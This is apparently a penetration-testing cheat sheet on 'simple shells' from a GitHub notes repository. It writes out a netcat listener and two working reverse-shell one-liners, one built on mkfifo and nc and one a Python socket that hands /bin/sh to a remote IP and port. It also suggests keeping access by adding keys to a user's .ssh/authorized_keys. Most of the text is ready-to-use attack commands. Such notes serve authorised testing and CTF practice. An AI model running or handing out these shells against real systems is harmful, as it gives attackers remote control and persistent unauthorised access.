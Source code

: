 5._Simple_shells

5. Simple shells

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet is an amazing list of reverse shells if the ones listed here don't work.

#### Opening a connection on your computer:
- `nc -nlvp PORT`
	- This opens the port and waits for a connection to create a reverse shell

#### Common reverse shell commands:
- `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f`
- `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

#### Opening a bind shell
Bind shells aren't as common due to the fact that they are more vulnerable to being "stolen" as well as outgoing connections are harder to flag as bad traffic than incoming connections. I will not list them since I've never had a use for them outside of metasploit payloads, but https://ashr.net/bind/and/reverse/shell/cheatsheet/windows/and/linux.aspx is a good place to find some.

### Upgrading to an interactive shell
Sometimes you have a shell that lets you run commands but no tab completion, arrow key movement, etc.
- The first way is to edit the .ssh/authorized_keys of a user then ssh in. This also helps with ensuring you still have the conneciton to the server even if you patch the exploit/the connection drops
	- Note that some machines may not have ssh enabled or on the default port. Check your nmap scan!
- https://netsec.ws/?p=337 is a good list of how to spawn a tty shell, python being the one I use the most.

Sometimes you'll end up where you can't seem to get a tty shell no matter what you do. Keep trying or just work with what you have. If you have all the time in the world, consider using msfvenom and establishing a meterpreter shell, which is more consistent than whatever reverse shell you may have setup.